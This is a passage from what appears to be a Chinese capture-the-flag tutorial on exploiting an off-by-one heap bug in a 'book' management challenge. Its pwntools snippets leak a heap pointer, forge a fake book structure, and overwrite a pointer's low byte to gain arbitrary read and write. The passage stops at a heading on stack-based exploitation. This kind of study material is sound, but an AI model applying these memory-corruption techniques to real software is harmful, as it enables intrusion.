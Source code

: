 ```python
create_auhter_name('A'*32)
create('a',0x20, 'b', 0x20)

book1_id, book1_name, book1_des, author=print_book_detail(1)
library_book = u64(author[0][32:32+6].ljust(8,'\x00'))
log.success('library_book = %#x',library_book)
debug()
```

### off-by-one 覆盖指针低字节

程序中提供了 change 功能，即修改author name，所以通过change 可以重新写入author name，利用 off-by-one 覆盖 library_book 的第一个低字节，使其指向 book1的description。

由于程序提供了 edit 功能，可以任意修改 description的内容，所以可以提前在 description 中布置数据伪造成一个book结构，这个book结构的 description和name可以直接控制

```python
def off_by_one(addr):
    addr += offset
    io.recvuntil('>')# create fake book in description
    io.sendline('3')
    fake_book_data = p64(0x1) + p64(addr) + p64(addr) + pack(0xffff)
    io.recvuntil('Enter new book description:')
    io.sendline(fake_book_data) # <== fake book


    io.recvuntil('>') # change author name
    io.sendline('5')
    io.recvuntil('Enter author name:')
    io.sendline('a' * 32) # <== off-by-one
```

这里在 description 中伪造了 book ，使用的数据是 p64(0x1)+p64(addr)+p64(addr)+pack(0xffff) 。 其中 addr+offset 是为了使指针指向 book2 的指针地址，使得我们可以任意修改这些指针值,这里的offset的值需要是 book1的description指针指向 低字节为 0xf0的位置，这样它的数据域就指向低字节为0x00的位置，方便之后的 off-by-one利用

![Alt](img/wiki-OffByOne10.png)

### 通过栈实现利用
